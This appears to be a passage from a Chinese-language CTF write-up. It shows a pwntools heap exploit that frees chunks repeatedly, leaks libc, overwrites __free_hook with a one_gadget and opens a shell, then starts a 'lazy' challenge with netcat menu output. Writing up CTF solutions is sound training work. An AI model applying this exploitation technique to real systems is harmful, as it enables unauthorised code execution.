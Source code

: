 ```python
add('fuck')
add('fuck')
add('fuck')

free()
free()
add(p64(heap_ptr + 0x60))
add('fuck')
add('fuck')

free()
free()
free()
free()
free()
free()
free()
free()
show()

a = r.recvuntil('\nDone',drop = True)
libc_base = u64(a.ljust(8,'\x00')) - 0x3ebca0
free_hook = libc_base + libc.symbols['__free_hook']
one = libc_base + 0x4f322
log.success('libc_base: ' + hex(libc_base))
log.success('__free_hook: ' + hex(free_hook))
log.success('one: ' + hex(one))

add('fuck')
free()
free()

add(p64(free_hook))
add('fuck')
add(p64(one))
free()

r.interactive()
```

running tql

## lazy

开局一nc，没文件，先打过去

```
1: Public contents
2: Login
3: Exit
1
Welcome to public directory
You can download contents in this directory
diary_4.txt
diary_3.txt
diary_1.txt
login_source.c
diary_2.txt
```
